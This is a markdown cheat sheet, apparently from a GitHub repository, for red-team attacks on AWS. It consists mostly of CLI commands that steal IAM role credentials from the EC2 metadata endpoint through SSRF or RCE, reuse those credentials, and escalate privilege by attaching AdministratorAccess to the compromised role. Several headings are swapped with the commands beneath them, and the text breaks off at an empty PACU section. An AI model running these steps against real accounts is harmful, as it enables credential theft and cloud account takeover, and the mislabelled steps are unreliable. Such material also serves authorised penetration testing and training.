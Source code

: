 ## Red Team Ops in AWS

### Cloud Red Team Attack Life Cycle

Configure Initial Compromised User Credential:
```bash
aws configure --profile auditor
```

Enumerate Cloud Services, e.g., EC2, S3, etc., in an Organization AWS Account:
```bash
aws ec2 describe-instances --profile auditor
```

Exploit Public Facing Application Running on EC2 Instance and Retrieve Temporary Credential:
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/jump-ec2-role
```

> [Note] Cloud meta-data can be retrieved by exploiting these web app vulnerabilities:
> - SSRF
> - RCE

Configure & Validate Temporary Credential in AWS CLI:
```bash
aws configure set aws_access_key_id [key-id] --profile ec2
aws configure set aws_secret_access_key [key-id] --profile ec2
aws configure set aws_session_token [token] --profile ec2
aws sts get-caller-identity --profile ec2
```

Retrieves the specified inline policy document that is embedded in the EC2 instance role:
```bash
aws iam list-attached-role-policies --role-name jump-ec2-role --profile auditor
aws iam list-role-policies --role-name jump-ec2-role --profile auditor
```

Get the Managed Policy Attached to EC2 Instance:
```bash
aws iam get-role-policy --role-name jump-ec2-role --policy-name jump-inline-policy --profile auditor
```

Get the permissions in inline policy:
```bash
aws iam attach-role-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --role-name jump-ec2-role --profile ec2
```


Escalate privilege by attaching administrator policy to itself:
```bash
aws iam list-attached-role-policies --role-name jump-ec2-role --profile auditor
```

>  check the managed Policy Attached to EC2 Instance.

### **Red Team Ops with PACU:**

